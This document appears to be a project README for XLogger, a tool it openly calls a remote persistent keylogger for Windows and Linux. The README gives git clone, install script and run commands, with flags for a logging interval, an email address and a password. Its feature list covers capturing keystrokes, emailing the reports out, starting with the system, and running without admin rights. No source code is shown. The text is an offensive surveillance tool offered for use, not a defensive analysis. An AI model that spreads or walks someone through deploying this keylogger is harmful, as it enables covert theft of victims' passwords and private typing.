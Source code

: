 # XLogger
Remote persistent keylogger for Windows and Linux.


## Commands :

### Download
git clone https://github.com/XPR1M3/XLogger.git

### Installation
chmod +x install.sh

./install.sh

### Usage
python xlogger.py

![alt text](https://i.imgur.com/0VLUEu7.jpg)

#### For Windows
python xlogger.py -i [time count in second] -w -e [Email] -p [password] -o [file name]

#### For Linux 
python xlogger.py -i [time count in second] -l -e [Email] -p [password] -o [file name]


### Features:

- Logs keys pressed on keyboard.
- Sends reports by email.
- Starts with system startup.
- Works with Linux and Windows.
- Does not require root or admin privileges.


